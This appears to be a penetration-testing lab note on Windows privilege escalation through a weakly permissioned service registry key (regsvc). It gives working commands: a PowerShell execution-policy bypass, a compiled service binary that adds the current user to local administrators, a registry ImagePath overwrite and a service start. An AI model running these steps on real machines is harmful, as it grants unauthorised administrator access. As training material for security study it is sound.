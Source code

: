 ```yaml
---
category: Uncategorized
tags: []
---
```

 **Detection**

Open PowerShell prompt and type: 

```command prompt - windows
powershell -ep bypass
```

```powershell - windows
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl  
```

Notice that the output suggests that user belong to “NT AUTHORITY\INTERACTIVE” has “FullContol” permission over the registry key.

![[Pasted image 20220207105736.png]]

```
.\winPEASx64.exe servicesinfo
```

![[Pasted image 20220609133644.png]]

**Exploitation**

Copy `C:\Users\User\Desktop\Tools\Source\windows_service.c` to the Kali VM.

Open windows_service.c in a text editor and replace the command used by the system() function to (line 15): 

[[windows_service.c]]

```mousepad - kali
cmd.exe /k net localgroup administrators %username% /add
```

Exit the text editor and compile the file by typing the following in the command prompt: 

```bash - kali
x86_64-w64-mingw32-gcc windows_service.c -o x.exe 
```

(NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')

Copy the generated file x.exe, to the Windows VM.

[[4._File Transfers]]

Place x.exe in `C:\Temp`.

Open command prompt at type: 

```command prompt - kali
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f  
```

In the command prompt type: 

```command prompt - kali
sc start regsvc
```

```command prompt - kali
sc start regsvc
```

[[___.Misc Commands#Restart host]]

It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: 

```command prompt - windows
net localgroup administrators
```

